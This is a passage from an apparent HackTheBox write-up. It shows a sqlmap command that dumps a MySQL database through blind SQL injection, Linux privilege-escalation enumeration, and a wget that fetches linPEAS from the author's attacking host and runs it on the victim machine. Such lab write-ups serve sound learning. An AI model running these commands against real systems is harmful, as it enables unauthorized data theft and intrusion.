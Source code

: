 I checked out a few writeups up until this point - and they all just used sqlmap which gives them the username and password without much work other than setting up a proxy.

So, I'll do the same! I am using the script here: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

, and amending it so that it fits my needs and works with my auth flow already.

# Some time passes

I had to try a few different times since the `--passwords` option for sqlmap could not really deal with clear-text password, I think?

I ended up dumping the database instead:

```
sqlmap -u "http://localhost:8081/?id=1" --dbms=mysql --dump
```

And viewing the dump file gives me the correct password! Progress! This is a gotcha for another time where I have to deal with blind mysql injection!

# SSH foothold!

I always try the usual suspects:

```
sudo -l
ls -la /opt
env
groups
find / -perm -u=s -type f 2>/dev/null
```

But nothing stands out, so I decide to run linPEAS.

I set up a python server on my attacking box:

```
python -m http.server
```

And create a dir in `/tmp` on the victim:

```
mkdir /tmp/nscp
cd /tmp/nscp
wget http://10.10.16.19:8000/linpeas.sh
chmod 755 linpeas.sh
./linpeas.sh -a > linout.txt
```

Wait a while for it to finish and look over the results with `less -R linout.txt`.

There are some hits on potential cve's, but I've found that these are usually not so normal for HackTheBox boxes at this point. There were a few earlier in my journey, but these newer boxes don't have as many.
